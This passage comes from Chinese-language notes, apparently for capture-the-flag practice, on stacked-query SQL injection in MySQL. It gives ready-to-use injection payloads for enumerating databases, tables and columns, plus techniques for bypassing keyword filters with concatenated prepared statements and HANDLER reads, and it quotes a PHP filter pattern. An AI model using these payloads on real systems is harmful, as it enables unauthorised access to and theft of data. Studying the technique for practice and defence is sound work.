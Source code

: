 
  #### 2.堆叠查询

  - 原理：数据库中';'表示一个语句的结束，如果没有对';'过滤，可以同时构造多条不同的语句，区别于联合查询注入的是联合查询只能执行查询语句，而堆叠查询可以执行任意语句，每条语句用';'隔开即可。

  - 步骤

    - 查数据库名

      ```
      1'; show databases;#
      ```

    - 查表名

      ```
      1'; show tables from '数据库名';#  
      ```

    - 查列名

      ```
      1'; show columns from `表名`;#
      注意如果是以纯数字作为表名或列名，要用~下面`引起来
      ```

    - 查完列名后查看相关信息，有些题目可能会用正则匹配阻止注入，比如

      ```
       preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
      ```

      这时候想要直接查询是很难的。于是可以考虑使用**预编译绕过**或者用**handler**语句绕过

      - 预编译：预编译语句就是将这类语句中的**值用占位符替代**，可以视为将**sql语句模板化或者说参数化**。一次编译、多次运行，省去了解析优化等过程。

      - 基本操作

        ```
        1';set @自定义变量=concat('s','elect * from '列名'');prepare 自定义模板名 from @自定义变量名;execute 自定义模板名;#
        ```

      - handler：mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。**它是mysql专用的语句**，并没有包含到SQL标准中。

      - 基本语法

        ```
        HANDLER tbl_name OPEN;
        HANDLER tbl_name READ index_name;
        因此可以尝试专业这样绕过select:
        1';handler tab_name open;handler tab_name read first/second/..;#
        ```

      - 还有可能继续阻止注入，比如

        ```sql
        strstr($inject, "set") && strstr($inject, "prepare")
        ```
